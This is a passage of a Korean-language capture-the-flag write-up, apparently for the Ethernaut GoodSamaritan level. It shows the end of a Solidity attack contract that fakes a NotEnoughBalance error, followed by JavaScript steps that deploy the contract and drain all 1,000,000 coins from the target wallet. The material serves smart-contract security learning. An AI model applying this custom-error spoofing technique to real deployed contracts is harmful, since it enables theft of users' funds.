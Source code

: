 ``` solidity
            revert NotEnoughBalance();
        }
    }
    
    function checkBalance() external view returns (uint256) {
        return coin.balances(address(this));
    }
}
```

### 핵심 로직 설명

-   **에러 타이밍**: amount == 10일 때만 에러 발생\
-   첫 번째 `donate10()` 호출 시 에러 발생 → GoodSamaritan 속임\
-   두 번째 `transferRemainder()`에서는 에러 없음 → 모든 코인 수령

------------------------------------------------------------------------

## 공격 실행 과정

1.  **환경 정보 수집**

``` javascript
console.log("GoodSamaritan:", contract.address);
const coinAddress = await contract.coin();
const walletAddress = await contract.wallet();
const balance = await coin.methods.balances(walletAddress).call();
console.log("Initial balance:", balance); // 1000000
```

2.  **공격 컨트랙트 배포**

-   AttackGoodSamaritan 배포 (파라미터: GoodSamaritan 주소, Coin 주소)

3.  **공격 실행**

``` javascript
await attackContract.methods.attack().send({from: player});
```

4.  **결과 확인**

``` javascript
const stolenBalance = await attackContract.methods.checkBalance().call();
console.log("Stolen coins:", stolenBalance); // 1000000

const remainingBalance = await coin.methods.balances(walletAddress).call();
console.log("Remaining balance:", remainingBalance); // 0
```

------------------------------------------------------------------------

## 공격 성공 결과

-   탈취한 코인: **1,000,000개 (전체 잔액)**\
-   지갑 잔액: **0개**\
-   공격 트랜잭션: **1회 호출로 모든 자금 탈취 성공**
